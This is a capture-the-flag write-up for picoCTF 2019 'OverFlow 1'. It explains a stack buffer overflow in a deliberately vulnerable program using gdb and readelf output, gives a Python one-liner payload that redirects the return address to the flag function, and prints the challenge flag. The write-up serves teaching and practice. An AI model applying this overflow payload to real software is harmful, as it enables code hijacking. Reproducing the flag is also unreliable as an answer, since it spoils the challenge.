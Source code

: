 # OverFlow 1
You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this [program](vuln)? You can find it in /problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780 on the shell server. [Source](vuln.c).

## Hint
Take control that return address  
Make sure your address is in Little Endian.

## Solution
Like last time, we have to overflow the return address. However, we have to write a specific value into it. If we open up the program with gdb (the GNU project debugger), we can see the assembly layout and certain addresses in the program:
```bash
turtlesubmarine69@pico-2019-shell1:/problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780$ gdb vuln
(some messages while opening up)
(gdb) disas main
Dump of assembler code for function main:
```
```asm
   0x0804869e <+0>:     lea    0x4(%esp),%ecx
   0x080486a2 <+4>:     and    $0xfffffff0,%esp
   0x080486a5 <+7>:     pushl  -0x4(%ecx)
   .
   .
   .
   0x080486fd <+95>:    add    $0x10,%esp
   0x08048700 <+98>:    call   0x804865f <vuln>
   0x08048705 <+103>:   mov    $0x0,%eax
```
We see that the vuln function is called. The `call` command pushes, or "saves", the address of the next instruction (0x08048705) onto the stack, and it will jump to `vuln`'s address (0x804865f). A `ret` function in vuln will pop from this saved address from the stack later and jump to it, thus continuing the function. We want to overwrite this return address. Now when we disassemble `vuln`:
```bash
(gdb) disas vuln
Dump of assembler code for function vuln:
```
```asm
   0x0804865f <+0>:     push   %ebp
   0x08048660 <+1>:     mov    %esp,%ebp
   0x08048662 <+3>:     push   %ebx
   .
   .
   .
   0x08048677 <+24>:    push   %eax
   0x08048678 <+25>:    call   0x8048430 <gets@plt>
   0x0804867d <+30>:    add    $0x10,%esp
```
This program calls `gets` (last time it called `strcpy`). `gets` reads from stdin, and like `strcpy`, it doesn't check the size of the input, but it terminates when a newline character is reached(\x0a, the same as pressing "Enter" on a keyboard). We can input 64 bytes of a's (the size of the buffer) and see how close we are to the return address by analysing the stack with gdb:
```
(after inputting the a's)
(gdb) x/50x $esp
0xffb2ef20:     0xffb2ef30      0xf7f38000      0xffb2ef68      0x0804866b
0xffb2ef30:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef40:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef50:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef60:     0x61616161      0x61616161      0x61616161      0x61616161
0xffb2ef70:     0x08048800      0x0804a000      0xffb2ef98      0x08048705
.
.
.
```
There it is, the saved address 0x08048705 at 0xffb2ef7c. This means we need to overwrite 12 more bytes, and then add the return address in little endian, where we can use python's struct module to convert hexadecimal values into bytes, and overwrite it with the address of the flag function, which will read out the flag to us. We can find `flag`'s address with `readelf`, and `grep` the results for "flag":
```bash
turtlesubmarine69@pico-2019-shell1:/problems/overflow-1_0_48b13c56d349b367a4d45d7d1aa31780$ readelf -s vuln | grep "flag"
    74: 080485e6   121 FUNC    GLOBAL DEFAULT   14 flag
```
Our payload looks like this:
```python -c "import struct; print 'a'*(64+12) + struct.pack('I', 0x080485e6)" | ./vuln```

## Details
Completed: *During competition*  
Points: **100**  
Done by: Cyril  
Flag: `picoCTF{n0w_w3r3_ChaNg1ng_r3tURn5c0178710}`
